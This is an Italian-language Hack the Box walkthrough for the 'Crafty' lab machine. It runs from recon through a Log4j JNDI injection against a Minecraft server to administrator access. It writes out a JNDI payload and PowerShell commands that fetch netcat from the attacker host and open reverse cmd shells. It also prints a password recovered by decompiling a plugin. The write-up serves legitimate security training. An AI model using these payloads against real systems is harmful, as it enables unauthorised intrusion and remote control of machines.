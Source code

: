 # Macchina Crafty

IP vittima: 10.129.230.193 IP attacante: 10.10.14.245

## Recon

`sudo nmap -A -T 5 -p- 10.129.230.193 -oN porte oppure sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.230.193 -oG porte `
`nmap -p80,25565 -sC -sV 10.129.230.193 -oN servizi`

## Porte

```
80: Microsoft IIS httpd 10.0
25565: Minecraft 1.16.5 
```

## Porta 80

Per visitare la porta 80 occorre fare un reindirizzamento del DNS: sudo su echo 10.129.230.193 crafty.htb >> /etc/hosts

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251010194214.png)

Facciamo un altro reindirizzamento per vistare play.crafty.htb echo 10.129.230.193 play.crafty.htb >> /etc/hosts ma che reindirizza a crafty.htb

## Porta 25565

searchsploit minecraft Minecraft Launcher 1.6.61 - Insecure File Permissions Privilege Escalation Non ci sono exploit validi

Ricerca su google di exploit per minecraft 1.16.5 si trova la vulenrabilità log4j

Ricerca su google poc github log4j minecraft exploit: [https://github.com/davidbombal/log4jminecraft](https://github.com/davidbombal/log4jminecraft)

Altra strada: a) ricerca su google: minecraft 1.16.5 client terminal sito: [https://github.com/MCCTeam/Minecraft-Console-Client](https://github.com/MCCTeam/Minecraft-Console-Client) scaricare la release MinecraftClient-20250522-285-linux-x64 dare i permessi di esecuzione (chomd +x)

b) cercare su google rogue jndi sito: [https://github.com/veracode-research/rogue-jndi](https://github.com/veracode-research/rogue-jndi) git clone --depth 1 [https://github.com/veracode-research/rogue-jndi](https://github.com/veracode-research/rogue-jndi) Dopo aver installato maven (builder) se non già disponibile fare il build: mvn package

c) scaricare netcat per windows 32bit wget [https://github.com/vinsworldcom/NetCat64/releases/download/1.11.6.4/nc64-32.exe](https://github.com/vinsworldcom/NetCat64/releases/download/1.11.6.4/nc64-32.exe);

N.B. Si ipotizza che tutti i file scaricati siano nella stessa cartella

Passaggi per il foothold

1. terminale 1: lanciare con ./MinecraftClient-20250522-285-linux-x64 test ""
2. terminale 2: mettersi in ascolto sulla porta 4444 con "nc -lnvp 4444"
3. terminale 3: preparare un server web python sulla porta 3000 con "python -m http.server 3000" nella cartella che contiene netcat per windows scaricato al punto b (nc64-32.exe)
4. terminale 4: lanciare il server rogue jndi che si trova nella cartella rogue-jndi/target con il comando:  
    java -jar RogueJndi-1.1.jar --command "powershell iwr [http://10.10.14.245:3000/nc64-32.exe](http://10.10.14.245:3000/nc64-32.exe) -O c:\windows\temp\nc64-32.exe; c:\windows\temp\nc64-32.exe 10.10.14.245 4444 -e cmd.exe" --hostname "10.10.14.245"
5. terminale 1: nel server minecraft lanciare il comando: ${jndi:ldap://10.10.14.245:1389/o=reference}
6. terminale 2: la porta 4444 in ascolto riceve la shell cmd

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251010194302.png)

La userflag si trova in C:\Users\svc_minecraft\Desktop\user.txt

## Scalata dei privilegi

Nella cartella C:\Users\svc_minecraft\server\plugins è presente il file playercounter-1.0-SNAPSHOT.jar Occorre creare una cartella c:\temp e copiare il file nella nuova cartella: mkdir c:\temp cd C:\temp copy c:\users\svc_minecraft\server\plugins\playercounter-1.0-SNAPSHOT.jar c:\temp\playercounter-1.0-SNAPSHOT.jar

Usare il comando: certutil -encode playercounter-1.0-SNAPSHOT.jar b64.txt Il comando prende il file binario playercounter-1.0-SNAPSHOT.jar, lo converte in testo Base64 (quindi una sequenza leggibile di caratteri ASCII) e salva il risultato nel file b64.txt.

Visualizzare il file creato con type b64.txt e copiare tutto il contenuto ad eccezione della riga iniziale -----BEGIN CERTIFICATE----- e quella finale -----END CERTIFICATE-----

In un altro terminale creare un file in cui inserire il contenuto copiato e poi decodificarlo da Base64 creando un nuovo file .jar con il comando: cat player.b64 | base64 -d >> player.jar

Ora il file potrà essere ispezionato ad esempio con jd-gui: jd-gui player.jar In htb.crafty.playercounter / htb.crafty.playercounter.Playercounter si trova la password: s67u84zKq8IXw

Ora occorre scaricare e unzippare lo strumento RunAsCs che dovrò essere caricato sulla macchina vittima wget [https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip](https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip) unzip RunAsCs.zip

Per scaricarlo sulla maccina vittima: powershell iwr [http://10.10.14.245:3000/RunasCs.exe](http://10.10.14.245:3000/RunasCs.exe) -O c:\temp\RunasCs.exe

Poi su un nuovo terminale mettiamoci ancora in ascolto su un altra porta con nc -lnvp 4500

poi nella cartella c:\temp lanciare il comando runascs.exe -l 2 administrator s67u84zKq8IXw "c:\windows\temp\nc64-32.exe 10.10.14.245 4500 -e cmd.exe"

Sul terminale in ascolto sulla porta 4500 si riceve la shell come amministratore

La rootflag si trova in C:\Users\Administrator\Desktop\root.txt

